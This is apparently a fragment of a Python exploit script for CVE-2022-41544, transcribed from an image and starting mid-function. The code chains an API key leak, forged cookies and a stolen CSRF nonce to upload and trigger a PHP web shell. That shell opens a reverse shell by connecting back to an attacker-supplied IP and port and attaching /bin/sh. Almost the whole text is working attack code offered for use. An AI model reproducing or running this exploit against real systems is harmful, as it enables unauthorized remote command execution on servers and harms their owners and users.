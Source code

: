 ```
        else:
            print("(-) Shell upload failed!")
    except requests.exceptions.RequestException as e:
        print("(-) An error occurred while uploading the shell:", e)
def shell_trigger(target, path):
    url = f"http://{target}{path}/shell.php"
    try:
        response = requests.get(url)
        if response.status_code == 200:
            print("[+] Webshell trigged successfully!")
        else:
            print("(-) Failed to visit the page!")
    except requests.exceptions.RequestException as e:
        print("(-) An error occurred while visiting the page:", e)

def main():
    if len(sys.argv) != 5:
        print("Usage: python3 CVE-2022-41544.py <target> <path> <ip:port> <username>")
        return

    target = sys.argv[1]
    path = sys.argv[2]
    if not path.endswith('/'):
        path += '/'

    ip, port = sys.argv[3].split(':')
    username = sys.argv[4]
    shell_content = f"""<?php
    $ip = '{ip}';
    $port = {port};
    $sock = fsockopen($ip, $port);
    $proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
    """

    version = get_version(target, path)
    if not version:
        print("(-) could not get version")
        return

    apikey = api_leak(target, path)
    if not apikey:
        print("(-) could not get apikey")
        return

    headers = set_cookies(username, version, apikey)

    nonce = get_csrf_token(target, path, headers)
    if not nonce:
        print("(-) could not get nonce")
        return

    upload_shell(target, path, headers, nonce, shell_content)
    shell_trigger(target, path)

if __name__ == '__main__':
    print_the_banner()
    main()
```
